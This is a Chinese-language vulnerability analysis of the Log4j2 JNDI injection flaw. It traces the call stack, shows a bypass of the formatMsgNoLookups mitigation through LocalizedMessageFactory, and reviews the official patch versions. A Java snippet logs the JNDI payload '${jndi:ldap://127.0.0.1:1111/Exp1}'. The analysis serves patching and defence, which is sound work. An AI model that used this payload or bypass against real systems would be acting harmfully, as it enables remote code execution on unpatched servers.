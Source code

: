# Log4j2 JNDI注入分析

## 漏洞触发流程

漏洞触发过程的调用栈如下：
```
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:223, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1116, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1038, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:345, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:543, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:502, LoggerConfig (org.apache.logging.log4j.core.config)
log:485, LoggerConfig (org.apache.logging.log4j.core.config)
log:460, LoggerConfig (org.apache.logging.log4j.core.config)
log:82, AwaitCompletionReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2198, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2152, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2135, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2011, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:9, Test
```
`toSerializable:345, PatternLayout$PatternSerializer`之前的调用栈不怎么需要关注，在PatternLayout中，toSerializable函数会调用各个Converter对event进行处理（log4j2对每条日志通过MessageFactory创建message对象，然后创建event将message加入其中对event进行异步处理）
![](media/16393044809899/16393650967152.jpg)
`MessagePatternConverter`类的format方法会根据是否开始了lookup功能对日志内容进行lookup操作（[Log4j - Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)）
首先会判断是否开始lookup功能，如果开启了lookup功能format函数会开始获取日志内容中被${}包含的内容认为是需要进行lookup动作的变量，进入replace流程，对变量进行替换
![](media/16393044809899/16393657792587.jpg)

在`StrSubstitutor`类的substitute方法，调用resolveVariable开始对变量进行处理
![](media/16393044809899/16393665967889.jpg)
在Interpolator类中lookup方法会根据冒号拆分输入进来的变量获取prefix也就是需要什么类型的lookup，然后从strLookupMap中根据字符串获取对应lookup类的对象，所有类型的lookup会被预先加载到这个map当中，这里获取到jndiLookup的对象然后调用其lookup方法
![](media/16393044809899/16393683297146.jpg)
lookup方法最终调用jndiManager的lookup函数触发漏洞
![](media/16393044809899/16393688340997.jpg)

## 修复方式的一些问题

各种文章给出的修复方式很多，这里提一个小问题，影响不大

跟多修复方案提到了设置log4j2.formatMsgNoLookups为true，但这里看`MessagePatternConverter`类的format方法有两处replace的调用点

![](media/16393044809899/16393736999681.jpg)

第一处就是正常利用进入的地方需要判断formatMsgNoLookups是否为false，第二处不需要判断，但需要满足msg的类型不能是`StringBuilderFormattable`并且`result`不能为null

从这段代码中可以看到msg是通过`event.getMessage()`获取的是一个Message类型的对象，`StringBuilderFormattable`是一个interface，之需要找一个类实现了Message但是没有实现StringBuilderFormattable就可以了，Message接口的实现类如下：

![](media/16393044809899/16393750258501.jpg)
逐个找可以发现一个LocalizedMessage类是满足需要的，在log4j中，Message对象都是通过MessageFactory创建的系统也内置了LocalizedMessageFactory工厂类，在getlogger时可以通过参数设置使用哪一个MessageFactory，实际代码测试一下，这里随便选择一个ResourceBundle的实现类
```java
AuthResources resourceBundle = new AuthResources();
LocalizedMessageFactory localizedMessageFactory = new LocalizedMessageFactory(resourceBundle);
Logger logger =  LogManager.getLogger(Test.class,localizedMessageFactory);
logger.error("${jndi:ldap://127.0.0.1:1111/Exp1}");
```
可以看到在关闭lookup的情况下依旧是可以触发的
![](media/16393044809899/16393756929738.jpg)
但这个利用场景就非常有限了，要求代码必须要指定特定的MessageFactory，但在推修过程中如果选择设置log4j2.formatMsgNoLookups为true这种方式，还是需要扫描代码在getlogger时是否自定义了MessageFactory，LocalizedMessageFactory因为默认是没有提供无参构造函数的，所以只能在代码中实例化，无法通过配置文件进行配置，其他MessageFactory需要检查配置文件中是否有lo4j2.messageFactory配置项

## 官方修复方案的几个版本

### 2.15.0-rc1
在2.15.0的代码中，lookup默认是关闭的，开启需要在配置文件的pattern中指明%msg{lookups}%n开启lookup功能

在JndiManager这个类的lookup增加了白名单功能限制协议头和请求地址，默认的协议头支持java、ldap、ldaps，默认的地址只支持本地地址，但实际实现有明显瑕疵，处理URI如果异常就可以直接触发漏洞了

### 2.15.0-rc2
处理URI白名单补充了异常退出，捕获异常后不进入lookup流程

### 2.15.1-rc1
增加JndiLookup开关log4j2.enableJndi默认为false，默认关闭lookup开关和JndiLookup开关

### 2.16.0-rc1
参数中不再支持lookup功能

## 总结
临时方案先处理处理，让官方慢慢修，让子弹飞一会，让几千开发大哥天天追更不合适